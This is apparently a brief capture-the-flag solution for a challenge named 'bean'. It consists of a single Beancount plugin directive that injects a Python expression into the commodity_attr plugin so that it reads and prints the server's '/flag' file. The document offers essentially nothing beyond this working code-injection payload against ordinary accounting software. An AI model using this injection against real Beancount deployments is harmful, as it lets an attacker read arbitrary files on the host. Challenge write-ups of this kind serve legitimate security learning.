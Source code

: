 # bean

## Solution

```beancount
plugin "beancount.plugins.commodity_attr" "__import__('sys').stdout.write(open('/flag').read())"
```
